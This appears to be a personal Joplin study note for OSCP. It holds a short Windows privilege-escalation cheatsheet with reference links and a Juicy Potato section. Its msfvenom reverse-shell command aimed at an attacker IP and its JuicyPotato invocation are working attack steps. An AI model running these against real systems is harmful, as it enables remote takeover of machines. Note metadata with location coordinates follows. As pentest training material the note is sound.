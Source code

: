 Windows Guide

https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html 

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

# whoami /priv

## SeImpersonatePrivilege

Use Juicy Potato exploit (2018 only for older Windows than 10.1809)

https://jlajara.gitlab.io/others/2020/11/22/Potatoes\_Windows\_Privesc.html 

> msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=192.168.119.168 LPORT=6001 -f exe -o privesc.exe
> 
> JuicyPotato.exe -t t -p privesc.exe -l 8888 (free port)

id: 5e4294f0738d4d969fc5e1aa80617d0b
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-04-22T08:40:22.576Z
updated_time: 2022-04-22T10:09:17.260Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-22T08:40:22.576Z
user_updated_time: 2022-04-22T10:09:17.260Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1